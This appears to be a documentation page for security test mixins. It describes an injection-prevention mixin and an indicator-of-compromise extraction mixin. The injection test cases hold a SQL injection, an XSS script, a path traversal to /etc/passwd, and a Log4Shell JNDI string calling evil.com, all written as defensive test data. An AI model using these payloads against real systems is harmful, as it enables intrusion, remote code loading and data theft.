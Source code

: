 
## Test Mixins

### SecurityValidationMixin

**Purpose**: Tests security aspects including injection prevention.

**Key Methods**:

1. **`get_injection_test_cases()`**: Returns list of malicious input patterns
   - SQL injection attempts
   - Command injection
   - XSS payloads
   - Path traversal
   - JNDI/Log4Shell patterns

2. **`test_injection_prevention_in_natural_language()`**: Tests that malicious inputs are:
   - Rejected with an error, OR
   - Properly escaped/sanitized

**Test Cases Include**:
```python
"; DROP TABLE users"
"' OR '1'='1"
"<script>alert('xss')</script>"
"../../../etc/passwd"
"${jndi:ldap://evil.com/a}"
```

**Override Example**:
```python
def get_injection_test_cases(self):
    base_cases = super().get_injection_test_cases()
    # Add platform-specific cases
    return base_cases + ["platform_specific_injection"]
```

---

### IOCExtractionMixin

**Purpose**: Tests extraction of Indicators of Compromise (IOCs) from natural language.

**Key Methods**:

1. **`get_ioc_test_cases()`**: Returns dictionary of IOC types to test values
   - IPv4 addresses
   - IPv6 addresses
   - MD5 hashes
   - SHA256 hashes
   - Domain names

2. **`test_ioc_extraction_from_natural_language()`**: Tests that IOCs are:
   - Extracted from natural language queries
   - Mapped to appropriate fields
   - Included in the query or metadata

